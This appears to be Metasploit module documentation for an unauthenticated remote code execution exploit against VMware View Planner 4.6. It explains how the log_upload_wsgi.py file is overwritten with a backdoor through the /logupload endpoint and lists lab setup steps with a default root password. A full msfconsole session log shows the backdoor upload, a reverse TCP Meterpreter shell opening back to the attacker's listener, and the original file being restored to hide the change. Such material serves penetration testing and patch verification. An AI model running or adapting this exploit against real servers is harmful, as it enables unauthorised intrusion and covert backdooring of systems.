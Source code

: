 ## Vulnerable Application
VMWare View Planner 4.6 prior to 4.6 Security Patch 1 contained an log file upload script,
named `log_upload_wsgi.py`, which was mapped on to the web page `/logupload` and available
to unauthenticated users. Furthermore, unauthenticated users could browse the source code of
this file by navigating to `/wsgi_log_upload/log_upload_wsgi.py`, giving them an easy way to
ensure that they restored the original contents of the `log_upload_wsgi.py` file.

The module takes advantage of these two properties to first obtain the contents of the
`log_upload_wsgi.py` file and then overwrite it with a backdoored copy. Once a request has been
sent to `/logupload` to trigger the payload, the original copy of `log_upload_wsgi.py` is then
restored to ensure the target can continue its normal operations. Successful exploitation results
in RCE as the `apache` user within the `appacheServer` Docker container.

### Setup Steps

1. Sign up for an account at https://my.vmware.com/web/vmware/registration
1. Browse to https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VIEW-PLAN-460&productId=1067&rPId=53394 and download the OVA file for View Planner Harness.
1. Verify the name of the downloaded OVA is viewplanner-harness-4.6.0.0-16995088_OVF10.ova and its hash is 4639f1916ffd30095cf5af383f38f7de
1. Install the VM and boot it up. When you get to the main screen, which will take several minutes, select Login with the arrow keys and log in with the username `root` and password `changeme`.
1. Run `~/viewplanner/setup/harness_first_boot.sh` to start the server.
1. Verify that the web server is accessible over port 80 or 443 and that the page at `/logupload` is accessible.

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce`
1. Do: `set rhosts [Target IP]`
1. Do: `set lhost [Local IP]`
1. Do: `exploit`
1. You should get a shell as the `apache` user on the target machine.
1. You should also see that the original copy of `log_upload_wsgi.py` is restored after you get a shell.

## Options

## Scenarios

### VMWare View Planner 4.6.0.0 OVA (viewplanner-harness-4.6.0.0-16995088_OVF10.ova)

```
msf > use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set RHOSTS 172.18.51.76
RHOSTS => 172.18.51.76
msf exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set LHOST 172.18.54.135
LHOST => 172.18.54.135
msf exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > show options

Module options (exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.51.76     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.54.135    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   VMware View Planner 4.6.0

msf exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > exploit

[*] Started reverse TCP handler on 172.18.54.135:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Vulnerable log_upload_wsgi.py file identified!
[*] Uploading backdoor to system via the arbitrary file upload vulnerability!
[+] Backdoor uploaded!
[*] Sending request to execute the backdoor!
[*] Sending stage (39344 bytes) to 172.18.51.76
[*] Reuploading the original code to remove the backdoor!
[+] Original file restored, enjoy the shell!
[*] Meterpreter session 2 opened (172.18.54.135:4444 -> 172.18.51.76:53278) at 2021-03-10 16:34:37 -0600

meterpreter > getuid
Server username: apache
meterpreter > sysinfo
Computer     : cf49e2261af4
OS           : Linux 4.9.137-1.ph2 #1-photon SMP Tue Nov 20 14:26:55 UTC 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/
meterpreter >
```
